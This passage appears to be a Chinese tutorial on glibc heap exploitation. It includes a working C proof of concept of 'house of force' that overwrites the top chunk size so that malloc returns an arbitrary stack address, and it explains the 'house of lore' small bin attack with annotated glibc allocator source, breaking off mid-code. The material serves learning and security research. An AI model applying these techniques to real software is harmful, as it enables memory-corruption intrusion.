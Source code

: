 笔者通过一小段代码在`glibc2.23`中实现了`house of force`：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    long fake_chunk[0x110]; // 最终要是申请到了这里，那就说明攻击成功
    printf("the addr of fake_chunk is %p.\n", fake_chunk);

    long *a = malloc(0x100);                     // 如此一来，chunk a的下一个chunk将会是top chunk
    long *top_chunk = (long *)((long)a + 0x100); // top_chunk在a偏移0x100的地方
    top_chunk[1] = -1; // 将top chunk的大小修改为无限大

    long diff = (long)&fake_chunk[0] - (long)top_chunk; // 计算fake_chunk和top chunk此时相差的距离
    malloc(diff - 0x10);                                // malloc这个距离大小-0x10的chunk就是申请一个大小等于这个距离的，使得top chunk减小这个距离

    long *b = malloc(0x100);                                // 随便申请一个chunk
    printf("the addr of new malloc chunk is %p.\n", b - 2); // 发现申请到的chunk的地址就是fake

    return 0;
}
```

## house of lore

`house of lore`是针对`small bin`的一种攻击方法，和`unsorted bin attack`与`large bin  attack`很类似。个人感觉称之为`small bin attack`也没啥问题。

一句话描述该攻击方式：正常情况下，`small bin`取出一个`chunk`的时候会从末尾取出，这个`victim`的`bk`指针指向的是倒数第二个`chunk`，称为`bck`。此时检查`bck`的`fd`指针是否指向`victim`，通过检查后将`victim`取出，并将`bck`的`fd`指针指向`small bin`。若我们控制`victim`的`bk`指针，使其指向一个我们控制的`fake_chunk`，那么只需要控制该`fake_chunk`的`fd`指针指向了`victim`，这样以来便可以在取出`victim`的时候，将`fake_chunk`挂入`small bin`中。注意，取出`fake_chunk`的时候又需要经过`small bin`的检查，因此再此构造一个`fake_chunk2`，将`fake_chunk2`的`fd`指针指向`fake_chunk`，`fake_chunk`的`bk`指向`fake_chunk2`即可。

`small bin`取出的过程如下：

```c
if (in_smallbin_range(nb)) // 请求的大小位于smallbin
    {
        idx = smallbin_index(nb); // 请求的大小属于哪一个smallbin，找到下标idx
        bin = bin_at(av, idx);    // 通过下标找到具体的这个bin

        if ((victim = last(bin)) != bin) // last宏就是#define last(b) (b->bk)，因此就是定位到smallbin的最后一个chunk，而且smallbin不为空（bin->bk!=bin）
        {
            if (victim == 0) /* initialization check */
                             // 假如smallbin为空，那么这里不会进行分配，要到后面unsortedbin。合并所有的fastbin chunk，合并到unsorted bin里面去
                malloc_consolidate(av);
            else // 定位到了这个smallbin，取出里面的一个chunk，从队尾开始取
            {
                bck = victim->bk;                        // bck是victim的bk，也就是倒数第二个
                if (__glibc_unlikely(bck->fd != victim)) // bck的fd假如不为victim说明出错
                {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                set_inuse_bit_at_offset(victim, nb); // 取出这个victim。也就是队尾的这一个。
                bin->bk = bck;                       // 取出后，bin的bk将会变成倒数第二个chunk
                bck->fd = bin;                       // 取出后，倒数第二个chunk将会指向small bin

```
